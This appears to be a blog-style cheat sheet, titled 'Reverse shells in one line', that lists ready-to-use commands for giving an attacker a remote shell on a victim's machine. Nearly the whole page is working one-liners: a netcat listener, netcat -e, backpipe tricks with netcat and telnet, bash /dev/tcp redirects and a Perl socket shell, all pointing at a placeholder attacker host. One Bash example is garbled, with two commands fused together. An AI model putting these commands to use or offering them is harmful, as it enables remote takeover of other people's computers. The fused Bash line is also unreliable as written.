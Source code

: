 ```yaml
---
layout: default
title: Reverse shells in one line
---
```


## Reverse shells in one line

Reverse shells can be used to execute commands or collect data from another computer. The concept is that the attacker opens a listening port on which the victim
(through some exploit) connects to the attacker over tcp. This configuration also works vice versa which is known as a bind shell.

It’s important to consider what software the victim might have on their machine to enable this connection, thus using built in tools can be a smart approach.

-

### Here’s how you start the listener to connect to the vicitm (using netcat):

```bash
  $ nc -l -v attackerip 4444
```

### Netcat

```bash
  $ nc <attacker_ip> <port> -e /bin/bash
```

### no -e flag? use the GAPING_SECURITY_HOLE technique

```bash
  $ mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

### /dev/tcp

```bash
  $ /bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

### Telnet - GAPING_SECURITY_HOLE

```bash
  $ mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

### Bash

```bash
  bash -i >& /dev/tcp/10.0.0.1/8080 0>&10<&196;exec 196<>/dev/tcp/attackerip/4444;

  sh <&196 >&196 2>&196

  exec 5<>/dev/tcp/attackerip/4444

  cat <&5 | while read line; do $line 2>&5 >&5; done  # or:

  while read line 0<&5; do $line 2>&5 >&5; done
```

### Perl

```perl
  $ perl -MIO::Socket -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr => "127.0.0.1:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

##

-

[Click here to view the orginal post](https://puppy.codes/2016/12/27/reverse-shells.html)

